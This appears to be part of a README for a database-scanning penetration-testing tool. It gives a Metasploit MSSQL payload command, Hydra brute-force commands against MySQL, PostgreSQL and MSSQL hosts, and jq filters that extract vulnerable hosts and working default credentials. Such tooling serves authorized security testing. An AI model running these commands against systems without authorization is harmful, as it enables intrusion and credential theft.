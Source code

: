 ```bash

# MSSQL exploitation
use exploit/windows/mssql/mssql_payload
set RHOST 192.168.1.53
run
```

### With Hydra
```bash
# MySQL brute force
hydra -L users.txt -P passwords.txt mysql://192.168.1.50

# PostgreSQL brute force
hydra -L users.txt -P passwords.txt postgres://192.168.1.51

# MSSQL brute force
hydra -L users.txt -P passwords.txt mssql://192.168.1.53
```

### JSON Parsing
```bash
# Extract IPs with vulnerable databases
cat db_details.json | jq -r '.[] | select(.vulnerable | length > 0) | .ip'

# Count services by type
cat db_details.json | jq -r '.[] | .services | keys[]' | sort | uniq -c

# Extract working credentials
cat db_details.json | jq -r '.[] | select(.default_creds | length > 0) | .ip + " | " + (.default_creds[] | .service + ":" + .username + ":" + .password)'

# List enumerated databases
cat db_details.json | jq -r '.[] | .services[] | select(.databases) | .databases[]' | sort -u
```

## Common Options

```
Positional:
  None (uses iplist.txt)

Required:
  None (all optional)

Optional:
  -f, --file FILE       Input file (default: iplist.txt)
  -w, --workers N       Concurrent workers (default: 10)
  -t, --test-creds      Test default credentials
  -u, --username USER   Custom username (e.g., from Responder)
  -p, --password PASS   Custom password (e.g., from Responder)
  -e, --enumerate       Enumerate databases (SAFE: read-only)
  --timeout SECONDS     Connection timeout (default: 2)
  -v, --verbose         Show all hosts
```

